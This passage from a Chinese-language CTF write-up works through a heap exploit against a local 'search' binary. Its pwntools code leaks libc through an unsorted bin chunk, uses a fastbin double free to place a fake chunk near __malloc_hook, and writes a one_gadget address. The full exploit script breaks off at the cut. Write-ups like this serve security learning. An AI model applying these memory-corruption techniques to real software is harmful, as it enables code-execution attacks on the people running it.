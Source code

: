 申请 0x88 unsorted bin chunk ，泄露 libc 地址：

```python
Index(' m '.rjust(0x88,'a'))
search('m')
p.recvuntil('Delete this sentence (y/n)?\n')
p.sendline('y')
search('\x00')
p.recvuntil('Found 136: ')
unsortbin_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("unsortbin_addr:" + hex(unsortbin_addr))
```

Arbitrary Alloc 步骤：sky 三个 chunk 先释放到 fastbin 中，然后 double free k chunk ，完成修改链表。如果缺少 s chunk 只使用两个堆，double free 时报错：``double free or corruption (fasttop)``，此时被 double free chunk 的链首。

```python
search('s')
p.recvuntil("Found")
p.sendline('y')
search('k')
p.recvuntil("Found")
p.sendline('y')
search('y')
p.recvuntil("Found")
p.sendline('y')
search('\x00')
p.recvuntil("Found")
p.sendline('n')
p.recvuntil("Found")
p.sendline('y')

fakechunk_addr = malloc_hook - 0x23
Index(p64(fakechunk_addr).ljust(0x68,'b'))
Index(' s '.rjust(0x68,'b'))
Index(' k '.rjust(0x68,'b'))
Index(p64(0xf1207+libc_base).rjust(0x1b,'a').ljust(0x68,'b'))
```

篡改链表之后，通过偏移找到  size 在 fastbin 范围的 fakechunk 。

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
from pwn import * 
context(log_level='debug',os='linux',arch='amd64')

p = process("./search")
elf = ELF("./search")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def search(word):
	p.recvuntil('3: Quit\n',timeout=3)
	p.sendline('1')
	p.recvuntil('Enter the word size:\n')
	p.sendline(str(len(word)))
	p.recvuntil('Enter the word:\n')
	p.send(word)


def Index(word):
	p.recvuntil('3: Quit\n',timeout=3)
	p.sendline('2')
```